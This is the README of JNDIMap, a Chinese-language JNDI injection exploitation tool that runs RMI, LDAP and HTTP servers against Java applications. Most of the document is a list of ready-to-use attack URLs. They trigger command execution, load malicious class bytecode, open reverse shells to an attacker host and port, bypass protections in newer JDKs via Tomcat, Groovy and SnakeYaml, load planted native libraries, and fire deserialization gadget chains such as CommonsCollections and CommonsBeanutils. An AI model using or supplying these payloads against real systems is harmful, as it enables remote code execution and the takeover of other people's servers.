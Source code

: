 # JNDIMap

JNDIMap 是一个 JNDI 注入利用工具, 支持 RMI 和 LDAP 协议

目前支持以下功能

- DnsLog
- 命令执行
- 原生反弹 Shell (支持 Windows)
- 加载自定义 Class 字节码
- Tomcat/Groovy/SnakeYaml 绕过高版本 JDK
- MLet 探测可用 Gadget
- NativeLibLoader 加载动态链接库
- LDAP 反序列化

## Usage

```bash
Usage: java -jar JNDIMap.jar -h <httpHost> -r <rmiPort> -l <ldapPort> -p <httpPort>
````

RMI 和 LDAP 服务器监听地址默认为 `0.0.0.0`

httpHost: HTTP 服务器监听地址, 同时为 codebase 地址 (必须指定为一个目标服务器可访问到的地址, 例如 `192.168.1.100`, 不能用 `0.0.0.0`)

rmiPort: RMI 服务器监听端口, 默认为 `1099`

ldapPort: LDAP 服务器监听端口, 默认为 `1389`

httpPort: HTTP 服务器监听端口, 默认为 `3456`

## JNDI URL

注意传入的 Base64 均为 **Base64 URL 编码**, 即把 `+` 和 `/` 替换为 `-` 和 `_`

以下路由除 `/Deserialize/*` (LDAP 反序列化) 以外, 均支持 RMI 和 LDAP 协议

对于 RMI 协议, 只需要将 `ldap://127.0.0.1:1389/` 替换为 `rmi://127.0.0.1:1099/` 即可

```bash
# DnsLog
ldap://127.0.0.1:1389/Basic/DnsLog/xxx.dnslog.cn

# 命令执行
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# 从字符串/服务器上的某个路径加载自定义的 Class 字节码
ldap://127.0.0.1:1389/Basic/FromCode/<base64-java-bytecode>
ldap://127.0.0.1:1389/Basic/FromPath/<base64-path-to-evil-class-file>

# 反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444

# 以下 Bypass 方式支持 Basic 所有功能

# Tomcat Bypass
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Groovy Bypass
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator

# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator

# MLet 探测可用 Gadget
# 如果 com.example.TestClass 这个类存在, 则 HTTP 服务器会接收到一个 /com/example/TestClass_exists.class 请求
ldap://127.0.0.1:1389/MLet/com.example.TestClass

# NativeLibLoader 加载动态链接库
# 需要通过其它方式在目标机器上写入一个 dll/so/dylib, 然后通过 NativeLibLoader 加载
# 注意传入的 path 为绝对路径, 且不能包含后缀名
# 例如: 服务器上存在 /tmp/evil.so, 则 path 为 /tmp/evil
ldap://127.0.0.1:1389/NativeLibLoader/<base64-path-to-native-library>

# 自定义数据 反序列化
ldap://127.0.0.1:1389/Deserialize/<base64-serialize-data>

# CommonsCollectionsK1 反序列化 (3.1 + TemplatesImpl), 支持命令执行和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444

# CommonsCollectionsK2 反序列化 (4.0 + TemplatesImpl), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 反序列化 (3.1 + Runtime.exec), 仅支持命令执行
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# CommonsCollectionsK4 反序列化 (4.0 + Runtime.exec), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils1NoCC 反序列化 (1.9.4, 无需 commons-collections 依赖), 使用 TemplatesImpl, 支持命令和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/ReverseShell/127.0.0.1/4444
```